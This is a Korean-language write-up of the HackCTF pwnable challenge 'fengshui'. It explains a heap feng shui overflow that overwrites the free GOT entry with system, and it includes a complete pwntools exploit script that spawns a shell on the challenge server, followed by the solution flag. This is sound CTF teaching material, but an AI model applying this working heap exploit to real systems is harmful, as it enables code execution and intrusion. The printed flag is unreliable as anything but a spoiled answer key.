


# _ 풍수지리_

**Category:** _Pwnable_

**Source:** _HackCTF_

**Points:** _400_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
Heal fengshui(uaf와 비슷)

## Write-up



fengshui를 실행시키면 위처럼 메뉴가 나타납니다.

이전에 uaf로 풀었었던 문제와 비슷한 프로그램인것 같습니다.

문제이름인 fengshui는 heap에서 사용되는 기법입니다.(thanks to 반진영님)

간단하게 말하면 2개의 malloc를 한묶음으로 사용할때 heap재사용 취약점을 이용해서 2개의 heap을 멀리 떨어뜨려 줍니다. 그러면 중간에 있는 heap들은 overflow가 가능해 집니다.

함수는 add_location, delete_location, display_location, update_desc 가 있습니다.

각 함수에 대해 간략하게 설명하자면(ida 캡쳐화면있으면 좋을텐데...빨리 자재 신청좀...)

add_location
 - malloc으로 입력받은 크기만큼 할당 (h1)
 - malloc로 0x80크기만큼 할당 (h2)
 - h2의 data영역에 h1입력
 - 입력받은 크기만큼 data영역 h1이후 입력 (user input)

delete_location
 - h1 free
 - h2 free

display_location
 - user input 출력
 - h1 출력

update_desc
 - h2 data영역에 있는 h1이 가리키는 곳의 값을 수정

exploit 순서입니다. (add_location에서 할당 받을때 malloc을 두번하는데 m1-1, m1-2로 표시하겠습니다. 앞의 숫자는 malloc를 실행한 순서입니다.) 
 1. add_location으로 3개의 heap을 할당받는다.(m1은 free후 malloc할때 fengshui를 하기 위한 용도, m2는 overflow되어서 free의 got를 입력할곳, m3는 "/bin/sh\x00"을 입력할 곳)

 2. m1을 free 후 다시 malloc합니다. 이때 m4-1 크기를 0x80으로 줍니다.(앞에 free됐던 malloc2개가 fastbin에 있습니다. 이때 0x80크기의 chunk를 재할당 받아서 m4-1은 앞에, m4-2는 가장 뒤에 할당 받습니다.)

 3. free의 address를 알기 위해서 재할당 받는 m4-1의 data를 입력할때 overflow시켜서 m2-2의 data영역에 있는 m2-1의 주소를 free의 got로 덮어씁니다.

 4. display_location으로 m2를 호출하면 m2-1의 4byte이후를 print하고 m2-2를 print해야 하는데 이때 m2-1에 있는 주소를 사용합니다. 하지만 free_got로 수정했기때문에 free_got에 있는 값을 출력합니다.

 5. 알아내 free의 실제주소로 library를 찾고 free offset, system offset을 찾습니다. 이것으로 system의 실제 주소를 계산합니다.

 6. update_desc로 m2를 호출하면 m2-1의 data영역 첫번째가 가리키는 곳(원래는 m2-2)를 수정할 수 있습니다. m2-1의 data영역엔 overflow되어서 free_got가 있습니다. free_got의 값을 system address로 덮어씁니다.

 7. system함수를 호출하기 위해 free가 있는 delete_location을 호출합니다. 이때 m3를 호출하면 미리 작성되어있던 "/bin/sh\x00"이 인자로 들어가고 free대신 system이 호출되면서 exploit됩니다.


아래는 python 스크립트입니다.

```python
from pwn import *

if __debug__:
	script='''b display_location
	b add_location
	c'''
	p=gdb.debug('./fengshui',script)
	#p=process('./fengshui')
else:
	p=remote('ctf.j0n9hyun.xyz','3028')


def add(size,text):
	p.recvuntil('Choice: ')
	p.sendline('0')
	p.recvuntil('description: ')
	p.sendline(str(size))
	p.recvuntil('Name: ')
	p.sendline('/bin/sh\x00')
	p.recvuntil('length: ')
	p.sendline(str(len(text)))
	p.recvuntil('Text: ')
	p.sendline(text)

def delete(index):
	p.recvuntil('Choice: ')
	p.sendline('1')
	p.recvuntil('Index: ')
	p.sendline(str(index))

def display(index):
	p.recvuntil('Choice: ')
	p.sendline('2')
	p.recvuntil('Index: ')
	p.sendline(str(index))	

def update(index,text):
	p.recvuntil('Choice: ')
	p.sendline('3')
	p.recvuntil('Index: ')
	p.sendline(str(index))
	p.recvuntil('length: ')
	p.sendline('10')
	p.recvuntil('Text: ')
	p.sendline(text)
	


got_free=p32(0x0804b010)
free_offset=0x71470
system_offset=0x3ada0

add(10,'aaaa')
add(10,'bbbb')
add(10,'/bin/sh\x00')
delete(0)
add(0x80,'c'*152+got_free+'AAAA')
#add(0x80,'c'*160+got_free+'AAAA')
display(1)
p.recvline()
p.recvuntil('tion: ')
free_addr=u32(p.recv(4))
libc=free_addr - free_offset
system_addr = p32(libc + system_offset)
#system_addr=0xf7e0d6e0

update(1,system_addr)

delete(2)

p.interactive()
p.close()
```


HackCTF{1_h34rd_1t_thr0ugh_th3_gr4p3v1n3}

## References
heap fengshui 기법 설명
http://blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221532522902&parentCategoryNo=&categoryNo=&viewDate=&isShowPopularPosts=false&from=postView
